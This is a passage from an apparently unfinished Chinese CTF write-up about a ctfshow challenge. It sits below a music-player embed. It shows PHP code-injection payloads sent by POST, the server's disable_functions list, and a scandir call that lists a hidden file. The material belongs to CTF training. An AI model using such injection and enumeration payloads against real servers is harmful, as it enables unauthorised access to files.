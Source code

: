 ```yaml
---
title: ctfshow-大赛原题（未完）
id: ctfshow-大赛原题（未完）
date: 2022-1-11 15:47:30
sidebar_position: 18
---
```




<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width="330" height="86" src="//music.163.com/outchain/player?type=2&id=1909955412&auto=0&height=66"></iframe>

```
# 上面播放器的代码如下（仅网易云外链链接，其他播放器请自行百度）
<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width="330" height="86" src="//music.163.com/outchain/player?type=2&id=1909955412&auto=0&height=66"></iframe>
# width(宽度) ; height(高度)
# type = 歌曲(1) | 歌单(2) | 电台(3)
# id = 歌曲ID号
# auto = 自动播放(1) | 手动播放(0)
```



## 680-国赛某题

```
post code to run!
```

那么post传一个code试试：

```
code=phpinfo();
```

```
disable_functions ban掉了这些：
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstoped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,fopen,file_get_contents,fread,file,readfile,opendir,readdir,closedir,rewinddir
```

想到scandir一下当前目录：

```
code=var_dump(scandir('.'));
```

得到

```php
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" [3]=> string(21) "secret_you_never_know" }
```
